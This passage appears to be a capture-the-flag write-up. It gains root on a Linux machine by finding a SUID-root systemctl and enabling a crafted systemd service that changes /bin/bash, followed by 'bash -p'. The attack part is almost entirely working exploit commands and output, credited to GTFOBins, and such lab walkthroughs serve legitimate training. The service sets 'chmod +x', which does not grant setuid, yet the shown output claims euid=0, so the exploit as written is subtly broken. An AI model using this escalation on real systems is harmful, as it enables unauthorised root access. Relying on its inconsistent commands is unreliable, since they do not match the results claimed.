 #### flag-5.1

```bash
$ find / -user root -perm -4000 -exec ls -ldb {} \;
...[snip]...
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
...[snip]...
```

> credit : [Gtfo bins](https://gtfobins.github.io/gtfobins/systemctl/)

![](https://i.imgur.com/5z5748W.png)

## flag-5.2 

```bash
# Run the followning

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +x /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

after successfull run. do this:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

/bin/bash -p #to exploit and gain root priv
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```



<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<script type="text/javascript" language="javascript">
      var aax_size='300x250';
      var aax_pubname = 'anir0y-21';
      var aax_src='302';
    </script>
<script type="text/javascript" language="javascript" src="https://c.amazon-adsystem.com/aax2/assoc.js"></script>



---
